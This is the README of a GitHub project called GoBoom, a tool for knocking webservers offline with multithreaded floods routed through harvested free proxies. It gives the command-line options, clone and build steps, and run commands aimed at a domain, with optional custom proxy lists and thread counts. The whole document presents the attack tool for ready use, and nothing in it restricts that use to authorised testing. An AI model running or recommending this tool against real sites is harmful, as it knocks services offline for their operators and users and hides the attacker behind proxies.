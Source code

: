 <div id="header" align="center">
<h1>💥GoBoom💥</h1>
  <p><b>A simple tool to "DDoS" a webserver via multiple threads each using a different proxy</b></p>
</div>



## Features 📁

- Auto harvest of multiple sources for free proxy
- Possibility to add file with your own proxy (ip:port format)
- Possibility to set your own threads limit
- Possibility to use without proxy


## Usage/Examples 📖
### Help
```shell
go run GoBoom.go -h

usage: GoBoom [-h|--help] -d|--domain "<value>" [-t|--threads "<value>"]
              [-p|--proxy-file "<value>" [-p|--proxy-file "<value>" ...]]
              [-x|--proxy-mult <integer>] [-m|--mode <integer>]

              Boom some website by proxy

Arguments:

  -h  --help        Print help information
  -d  --domain      Domain to boom
  -t  --threads     Number of core to use. Default: max
  -p  --proxy-file  Proxy file(s), separate with a ',' each files. Format of
                    file(s) must be ip:port. Default: []
  -x  --proxy-mult  You can multiply the working proxys detected with this
                    option. Default: 12
  -m  --mode        Mode of attack, 1 for pass all traffic trough proxy, 2
                    don't use proxy. Default: 1
```
### With Golang
```shell
git clone https://github.com/ugomeguerditchian/GoBoom
cd GoBoom
go run GoBoom.go -d example.com
```
### With binaries
Open it in a terminal and add your args
```shell
GoBoom.exe -d example.com 

```
### Add your own proxy file
You can add your own file containing proxy :
```shell
    go run GoBoom.go -d example.com -p C:\myfile1.txt,C:\myfile2.txt

```

### Use GoBoom without proxy
You have to specify the number of threads you want to use
```shell
    go run GoBoom.go -d example.com -t 100 -m 2

```
In this case GoBoom will use all core of your CPU, you have to adapt it with the number of threads you want to use


## Authors 🖋

- [@ugomeguerditchian](https://github.com/ugomeguerditchian)

## Contributors 🖊

- [@lisandro-git](https://github.com/lisandro-git)

